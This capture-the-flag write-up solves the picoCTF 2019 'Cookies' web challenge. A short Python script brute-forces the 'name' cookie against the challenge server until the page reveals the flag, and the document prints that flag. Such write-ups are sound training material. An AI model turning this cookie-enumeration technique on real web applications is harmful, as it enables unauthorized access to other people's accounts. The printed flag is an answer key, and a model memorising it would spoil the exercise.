 # Cookies

Tags: picoCTF 2019, Web Exploitation

| Author    | Point     |
| --------- | --------- |
| MADSTACKS | 40 points |

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solve



![CleanShot 2024-04-15 at 18.11.37](./images/CleanShot 2024-04-15 at 18.11.37.png)

![CleanShot 2024-04-15 at 18.20.28](./images/CleanShot 2024-04-15 at 18.20.28.png)

![CleanShot 2024-04-15 at 18.23.11](./images/CleanShot 2024-04-15 at 18.23.11.png)

![CleanShot 2024-04-15 at 18.23.43](./images/CleanShot 2024-04-15 at 18.23.43-3175267.png)

```python
import requests

url = "http://mercury.picoctf.net:29649/check"

s = requests.Session()

for i in range(1000):
    cookies = {"name": f"{i}"}
    r = s.get(url, cookies=cookies)
    if "picoCTF" in r.text:
        print(r.text)
        break
```

```
[snip]
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
        </div>
[snip]

</body>

</html>
```

